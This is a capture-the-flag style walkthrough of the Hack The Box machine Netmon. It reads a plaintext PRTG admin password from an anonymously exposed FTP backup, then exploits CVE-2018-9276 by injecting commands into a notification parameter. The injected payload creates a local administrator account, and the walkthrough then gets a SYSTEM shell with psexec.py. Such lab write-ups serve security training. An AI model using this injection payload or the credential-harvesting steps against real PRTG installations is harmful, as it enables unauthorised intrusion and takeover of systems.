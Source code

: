 # Exercise: Enumerating vulnerabilities caused by default applications in the box Netmon



In this machine, the application PRTG Network Monitor has been installed and the demo features have not been removed or disabled. The vulnerability here allows remote command execution through a demo feature in the product.

Scanning the machine with nmap you get the following output:

```bash
┌─[oztechmuse@parrot]─[~/boxes/Netmon]
└──╼ $sudo nmap -v -sC -sV -T4 --min-rate 1000 -p- netmon.htb -oA nmap/full-tcp
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19 12:18AM 1024 .rnd
| 02-25-19 10:15PM <DIR> inetpub
| 07-16-16 09:18AM <DIR> PerfLogs
| 02-25-19 10:56PM <DIR> Program Files
| 02-03-19 12:28AM <DIR> Program Files (x86)
| 02-03-19 08:08AM <DIR> Users
|_02-25-19 11:49PM <DIR> Windows
| ftp-syst:
|_ SYST: Windows_NT
80/tcp open http Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

We can see that the box is likely running Windows Server 2008 R2 and that it allows anonymous FTP access to the entire main drive. The other thing to note is that there is a web server on port 80 which is running the application PRTG Network Monitor.

The website offers a login page

![PRTG Login Page](../.gitbook/assets/14%20%282%29.png)

Searching the internet for information about PRTG and where it may store configuration information, you find that configuration information should be in c:\ProgramData\Paessler\PRTG Network Monitor \(alternatively, a quick bit of searching in FTP uncovers this\). There you find some configuration files, including what looks like a backup.

```bash
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
10-22-20 10:46PM <DIR> Configuration Auto-Backups
10-22-20 10:05PM <DIR> Log Database
02-03-19 12:18AM <DIR> Logs (Debug)
02-03-19 12:18AM <DIR> Logs (Sensors)
02-03-19 12:18AM <DIR> Logs (System)
10-23-20 12:00AM <DIR> Logs (Web Server)
10-22-20 10:10PM <DIR> Monitoring Database
02-25-19 10:54PM 1189697 PRTG Configuration.dat
02-25-19 10:54PM 1189697 PRTG Configuration.old
07-14-18 03:13AM 1153755 PRTG Configuration.old.bak
10-23-20 07:10AM 1723779 PRTG Graph Data Cache.dat
02-25-19 11:00PM <DIR> Report PDFs
02-03-19 12:18AM <DIR> System Information Database
02-03-19 12:40AM <DIR> Ticket Database
02-03-19 12:18AM <DIR> ToDo Database
```

We can use mget PRTG\* to copy all of the configuration files to our local machine. Looking at "PRTG Configuration.old.bak" first, you find the following information:

```text
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
```

Trying this on the login page doesn't work but looking at the format of the password and updating the year to PrTg@dmin2019 gets us in!

Once in, you can see that the version of PRTG is 18.1.37.13946, which is the same information that nmap gave us in the output above. Looking around the app, you can see the release notes for the application with a warning about the current version

![Release notes for version 18.4.47.1972 in PRTG application](../.gitbook/assets/15%20%281%29.png)

.This particular vulnerability doesn't really help us \(although it may have been a reason for the plain text password in the backup configuration file?\). So you need to look for other vulnerabilities. Searching for vulnerabilities for PRTG, you find a highly critical vulnerability CVE-2018-9276[\[6\]]() that allows remote code execution. The vulnerability is related to a demo script that is included with the product that is vulnerable to command injection. When creating a notification in the system, one action that can be selected is to run an executable and of the two options provided one is a PowerShell script OutFile.ps1. This takes a parameter of a file name but if you add a "\|" after the file name, you can add any other PowerShell commands. you can then create a new user and add them to the administrator group using the parameter:

```bash
afile.txt | net user rin password123! /add ; net localgroup administrators rin /add
```

To create a Notification, you go into the menu Setup &gt; Account Settings &gt; Notifications

![Notifications page in Account Settings in PRTG](../.gitbook/assets/16.png)

.Clicking the + button to create a new notification and leave everything as default but select Execute Program:

![Creating a Notification in PRTG](../.gitbook/assets/17.png)

Select the Demo.exe notification outfile.ps1 and enter our crafted command as the Parameter. In the Notifications list, click the menu button on the right and then the bell icon from the popup menu

![Notifications list after creating notification](../.gitbook/assets/18%20%281%29.png)

Once you have done this, you can login using Impacket's psexec.py

```bash
┌─[rin@parrot]─[~/boxes/Netmon/CVE-2018-9276]
└──╼ $psexec.py rin:'password123!'@10.10.10.152
Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth Corporation
[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file mirjPmkK.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service NeIi on 10.10.10.152.....
[*] Starting service NeIi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>
```

We could also have logged in using evil-winrm as the user "rin" or instead of creating a user, run a PowerShell command to get a reverse shell.

